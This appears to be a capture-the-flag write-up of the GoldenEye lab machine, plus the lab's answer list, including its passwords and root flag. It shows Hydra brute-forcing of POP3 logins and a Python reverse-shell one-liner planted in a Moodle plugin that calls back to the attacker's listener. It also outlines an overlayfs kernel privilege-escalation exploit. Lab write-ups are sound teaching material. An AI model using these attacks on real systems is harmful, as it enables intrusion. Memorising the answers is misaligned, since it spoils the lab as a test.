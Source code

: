 # Golden-Eye-Writeup by Brandon Gerber 

Task 1: Intro and Enumeration

I began by scanning the target machine using nmap to identify open ports:
nmap -n -v -sT -p- -T5 'IP'
This revealed 4 open ports. 

I decided to check the source code of the website found some comments:
// contacting a user named boris
// left encoded password
// mentioned another person named Natalya
Based on the context, I assumed "boris" was a username, 
and I found an encoded password in the comments: &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
Using an HTML decoder, I decoded it to:InvincibleHack3r
Know learning, i could have just used dcode<pw>

Task 2: It’s Mail Time
Next, I tried logging in via telnet to the POP3 service on port 55007, but the credentials failed. The next hint was to use Hydra to crack the password:
hydra -l boris -P <path_to_password_list> <IP> -s 55007 pop3
This successfully found the password:
Password: secret1!

I then logged in via telnet:
telnet <IP> 55007
user boris
pass secret1!
After logging in, I listed and retrieved the emails to retrieve the emails i used retr<email num>, revealing another username, "Xenia."

Using Hydra again, I cracked Xenia’s password:
hydra -l Xenia -P <path_to_password_list> <IP> -s 55007 pop3
The password was bird. After logging into her account, I found her new password: RCP90rulez. 

This led me to the next hint regarding the severnaya-station.com website. I added it to my /etc/hosts file to access it:
make sure to nano /etc/hosts and add <IP> severnaya-station.com
I visited http://severnaya-station.com/gnocertdir/ and used Xenia's credentials to log in: (this was after attemping boris)
user: Xenia
pass: RCP90rulez!
Under "My Profile," I found a message from Dr. Doak revealing his creds

hydra -l Doak -P <path_to_wordlist> <IP> -s 55007 pop3
Password: goat

Using telnet again, I found his password in an email: 4England!

Task 3: Gaining Access
Logging in with Dr. Doak's credentials (dr_doak, 4England!), I explored his private files and discovered a file named s3cret.txt, which mentioned the location of an image at /dir007key/for-007.jpg. I downloaded the image using wget and extracted hidden information with exiftool. Inside the description field,

I found a Base64 string:
eFdpbnRlckE50TV4IQ==
Decoded, it revealed: xWinter1995x!

user: admin
pass: xWinter1995x!

Task 4: Exploitation
I created a reverse shell using Python:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>", <Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])'
I inserted this script into the spell check plugin on the website,

then started a listener using pwncat:
pwncat --listen -p 9999
This granted me a shell on the system. The kernel version was 3.13.0-32-generic, and I found an overlayfs privilege escalation exploit (https://www.exploit-db.com/exploits/37292).

I compiled and executed the exploit:
upload exploit.c /tmp
cd /tmp
cc exploit.c -o exploit
./exploit
This gave me root access. I navigated to the /root directory and found the final flag:

cat flag.txt
Root flag: 568628e0d993b1973adc718237da6e93

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
ANSWERS 
Answer the questions below
First things first, connect to our network and deploy the machine.

No answer needed
Correct Answer
Use nmap to scan the network for all ports. How many ports are open?

4
Correct Answer
Hint
Take a look on the website, take a dive into the source code too and remember to inspect all scripts!

No answer needed
Correct Answer
Who needs to make sure they update their default password?

boris
Correct Answer
Whats their password?

InvincibleHack3r
Correct Answer
Now go use those credentials and login to a part of the site.

No answer needed
Correct Answer

Task 2:
Onto the next steps.. 

Answer the questions below
Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable? 

No answer needed
Correct Answer
If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

secret1!
Correct Answer
Hint
Inspect port 55007, what services is configured to use this port?

telnet
Correct Answer
Login using that service and the credentials you found earlier.

No answer needed
Correct Answer
What can you find on this service?

emails
Correct Answer
What user can break Boris' codes?

natalya
Correct Answer
Using the users you found on this service, find other users passwords

No answer needed
Correct Answer
Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.

No answer needed
Correct Answer
Hint

Task 3: 
Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

Answer the questions below
If you remembered in some of the emails you discovered, there is the severnaya-station.com website. To get this working, you need up update your DNS records to reveal it.

If you're on Linux edit your "/etc/hosts" file and add:

<machines ip> severnaya-station.com

If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file

No answer needed
Correct Answer
Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir

No answer needed
Correct Answer
Try using the credentials you found earlier. Which user can you login as?

xenia
Correct Answer
Have a poke around the site. What other user can you find?

doak
Correct Answer
What was this users password?

goat
Correct Answer
Hint
Use this users credentials to go through all the services you have found to reveal more emails.

No answer needed
Correct Answer
What is the next user you can find from doak?

dr_doak
Correct Answer
Hint
What is this users password?

4England!
Correct Answer
Take a look at their files on the moodle (severnaya-station.com)

No answer needed
Correct Answer
Download the attachments and see if there are any hidden messages inside them?

No answer needed
Correct Answer
Hint
Using the information you found in the last task, login with the newly found user.

No answer needed
Correct Answer
As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.

Take a look into Aspell, the spell checker plugin.

No answer needed
Correct Answer
Hint

Task 4: 
Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

Answer the questions below
Download the linuxprivchecker to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

Download the linuxprivchecker file locally
Navigate to the file on your file system
Do: python -m SimpleHTTPServer 1337 (leave this running)
On the VM you can now do: wget <your IP>/<file>.py
OR

Enumerate the machine manually.

No answer needed
Correct Answer
Whats the kernel version?

3.13.0-32-generic
Correct Answer
Hint
This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
Make su on overlayfs world writable without changing the owner
Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
Execute the modified su binary
You can download the exploit from here: https://www.exploit-db.com/exploits/37292

No answer needed
Correct Answer
Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!

What development tools are installed on the machine?
No answer needed
Correct Answer


What is the root flag?
568628e0d993b1973adc718237da6e93
Correct Answer
